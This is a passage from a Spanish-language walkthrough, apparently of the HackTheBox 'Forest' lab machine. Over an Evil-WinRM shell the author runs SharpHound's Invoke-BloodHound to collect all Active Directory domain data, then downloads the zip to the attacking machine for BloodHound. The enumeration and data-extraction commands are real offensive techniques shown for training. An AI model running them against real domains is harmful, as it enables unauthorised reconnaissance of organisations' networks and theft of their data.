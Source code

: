 - Ahora vamos a iniciar el **bloodhound** y nos conectamos con nuestras credenciales de **neo4j**. 

```bash
❯ bloodhound &> /dev/null & disown
[1] 105077
```

- Ahora en la maquina victima vamos a importar el modulo para poder usar las funciones. 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Import-Module .\SharpHound.ps1
```

- Ahora lo que vamos a hacer es **BloodHound** e indicarle que queremos recolectar toda la información del dominio.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All 
```

- Al terminar nos va a dar un **.zip** que tenemos que transferirlo a nuestra maquina de atacante.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2023   6:17 PM          15497 20230617181736_BloodHound.zip
-a----        6/17/2023   6:17 PM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/17/2023   6:02 PM         973325 SharpHound.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Lo descargamos.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20230617181736_BloodHound.zip
                                        
Info: Downloading C:\Users\svc-alfresco\Documents\20230617181736_BloodHound.zip to 20230617181736_BloodHound.zip
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Ahora subimos el **.zip** al **BloodHound**.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/forest/web3.png">
</p>
